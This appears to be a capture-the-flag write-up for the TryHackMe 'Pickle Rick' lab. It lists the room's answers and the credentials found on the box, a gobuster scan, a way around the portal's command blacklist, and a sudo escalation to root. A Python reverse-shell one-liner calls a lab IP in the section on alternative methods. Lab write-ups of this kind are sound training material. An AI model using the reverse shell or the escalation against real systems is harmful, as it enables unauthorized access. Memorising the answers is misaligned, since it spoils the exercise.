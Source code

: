 ## TryHackMe | Pickle Rick
https://tryhackme.com/room/picklerick

---

IP: 10.10.37.39
URL: https://10-10-37-39.p.thmlabs.com/

### Questions: 
1. What is the first ingredient Rick needs?\  
Answer: mr. meeseek hair\
Location: http://10.10.37.39/Sup3rS3cretPickl3Ingred.txt or `/var/www/html/Sup3rS3cretPickl3Ingred.txt`

2. Whats the second ingredient Rick needs?\  
Answer: 1 jerry tear\
Location:` /home/rick/"second ingredients"`

3. Whats the final ingredient Rick needs?\
Answer: fleeb juice\
Location: `/root/3rd.txt`

---
### Methods

From url:\
Username: R1ckRul3s

From robots.txt:\
Password: Wubbalubbadubdub


1. Run gobuster scan with extensions lookup (txt,html,css,js,py,php)
> ```bash
> gobuster dir -u http://10.10.246.225 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,css,js,html,txt,py,cgi,sh
> ```

2. Go to the URL as above, respective to given IP.
3. From the gobuster results, go to the `portal.php` page. 
4. Using the username and password received in index.html and robots.txt respectively, login to portal page.
5. Run `ls` command to find the first secret ingredient text file. Use `less` to display the file since cat, more and others are blacklisted. Read the notes below**
> Inspect the `portal.php` for blacklisted command
> 
> Blacklisted command:
> > "cat", "head", "more", "tail", "nano", "vim", "vi"
6. You have found all the info needed to find the second ingredients in `/home/rick`
7. Check `sudo -l` to find what can be run as sudo
8. Use sudo to display the file in /root by running the command in the `portal.php` command field
> ```bash
> sudo less /root/3rd.txt
> ```


**Another method to solve all this is by establishing reverse shell connection thru the `portal.php` command field. **

1. Setup netcat listener at port 9999
2. Run the following python revshell payload into the `portal.php` command field.
Python3 revshell payload:
> ```bash
> python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.26.94",9999));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
> ```
3. In this machine, the user has unlimited sudo privilege. go to root with `sudo bash`

---
### Notes

- Alternatives to cat,more,less
> `grep . <filename>`

- Inspect `portal.php` for restricted commands
- There is a base64 text in `portal.php` that translated to "rabbit hole"
> Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==

- Alternatively, run python and netcat to establish reverse shell

